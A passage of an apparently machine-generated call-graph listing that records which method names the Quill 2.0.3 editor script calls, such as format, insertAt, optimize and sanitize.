"static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "unwrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "moveChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "build"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "move"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "build"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "checkMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "enforceAllowedChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "enforceAllowedChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "enforceAllowedChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "checkMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "moveChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "build"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "observe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "build"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "build"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "detach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "detach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "takeRecords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "canAdd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "canAdd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "canAdd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attachUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "sanitize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "html"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "sanitize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "sanitize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "sanitize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "html"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "unwrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": 